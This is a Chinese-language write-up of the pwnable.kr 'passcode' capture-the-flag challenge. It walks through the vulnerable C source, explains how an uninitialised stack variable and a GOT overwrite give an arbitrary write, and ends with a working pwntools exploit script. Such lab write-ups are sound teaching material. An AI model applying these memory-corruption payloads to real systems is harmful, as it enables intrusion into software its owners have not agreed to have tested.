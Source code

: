 # pwnable.kr_passcode

题目类型：Pwn

自定义难度：★☆☆☆☆

## 1 题目

![image-20211121164422239](pwnable.kr_passcode.assets/image-20211121164422239.png)

本题提供源码

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

二进制：

## 2 解题

先看看题目介绍

> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?

翻译：

> 妈妈让我做一个密码登录系统。
>
> 我的初始C代码被编译了，没有任何错误!
>
> 有一些编译器警告，但谁在乎呢?

ssh 看看题目吧。

```bash
ssh passcode@pwnable.kr -p2222 # pw:guest
```

![image-20211121164819114](pwnable.kr_passcode.assets/image-20211121164819114.png)

运行程序后要求输入账号密码，应该是个溢出题吧，看看 `passcode.c`（源码在上面），这里校验通过即可，试试：

```c
if(passcode1==338150 && passcode2==13371337){
    printf("Login OK!\n");
    system("/bin/cat flag");
}
```

![image-20211121170510962](pwnable.kr_passcode.assets/image-20211121170510962.png)

报错了，问题应该出在这里：

```c
scanf("%d", passcode1);

// 正确的写法
scanf("%d", &passcode1);
```

看看保护开启的情况：

![image-20211121171243080](pwnable.kr_passcode.assets/image-20211121171243080.png)

保护开启的还是比较完善的，第一个输入点 `scanf("%100s", name);` 也限制了长度，一下子陷入了僵局 🤔，gdb 看看 `scanf` 到底写到了哪里吧。

![image-20211121173422646](pwnable.kr_passcode.assets/image-20211121173422646.png)

这个应该是写入了 `0xffffcf94` 这个地址，找找这个地址是哪里来的吧。

```c
int main()
{
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}
```

想了一下，`main` 函数中分别调用了 `welcome` 函数和 `login` 函数，这两个函数的调用栈深度是相同的，`login` 中局部变量 `passcode1` 和 `passcode2` 并未初始化，所以复用了 `welcome` 函数处理时栈帧中的数据。输入 100 字符的 name，查看 `edx` 验证一下：

```text
enter you name : AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYY
```

![image-20211121175548584](pwnable.kr_passcode.assets/image-20211121175548584.png)

`passcode1` 对应的是最后 4 个字节，把这四个字节改为 `passcode1` 需要的地址，应该就可以了，`passcode2` 同理。

好吧，栈上的地址是动态的，这里不太好直接获取，看看能不能覆盖 `passcode1` 的初始值为其他可利用的点。

**这里可以覆盖为某一个地址，然后通过后面的 `scanf` 给这个地址写入任意值，这样可以达到任意一个地址写任意值的效果。**

这里学到了一个新的知识点：PLT 和 GOT。通过覆盖动态库的 GOT 表内地址，改变调用动态库时 `jmp` 的位置，就可以改变程序的运行流了。

## 3 EXP

```python
from pwn import *

session = ssh(host='pwnable.kr', port=2222, user='passcode', password='guest')
io = session.process('passcode', env={"PS1":""})

# io = process("./pwnable.kr_passcode.assets/passcode")
# io = gdb.debug('pwnable.kr_passcode.assets/passcode', '''
# break welcome
# continue
# ''')

receive = io.recvline() # "Toddler's Secure Login System 1.0 beta.\n"
padding = b'A' * 96 + p32(0x0804A004) + str.encode(str(0x080485E3))
io.sendline(padding)

io.interactive()
```

## 4 总结

**这里可以覆盖为某一个地址，然后通过后面的 `scanf` 给这个地址写入任意值，这样可以达到任意一个地址写任意值的效果。**

这是解题思路中的关键，以后作题，可以把能利用的点列一下。不然思路会很乱。

## 附录A：存疑1

1. pwntools `gdb.debug` 调试有问题，直接段错误。
2. pwntools io 接收总是有问题。
3. shellcode 中 `p32(0x080485E3)` 这样写步行，要用 `str.encode(str(0x080485E3))` 这种写法。